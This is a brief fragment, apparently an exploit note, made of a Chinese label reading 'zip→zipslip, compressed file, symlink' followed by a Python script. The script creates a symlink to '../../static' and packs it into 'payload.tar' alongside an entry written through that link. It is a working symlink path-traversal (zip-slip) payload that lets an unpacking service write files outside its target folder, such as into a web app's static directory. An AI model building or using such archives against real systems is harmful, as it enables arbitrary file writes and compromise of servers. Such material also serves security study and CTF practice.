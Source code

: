 zip→zipslip  压缩文件 软链接 

from tarfile import TarFile
import subprocess

subprocess.run(["ln", "-s", "../../static", "link"])

with TarFile("payload.tar", "w") as tarf:
    tarf.add("link")
    tarf.add("link", "link/test.txt")
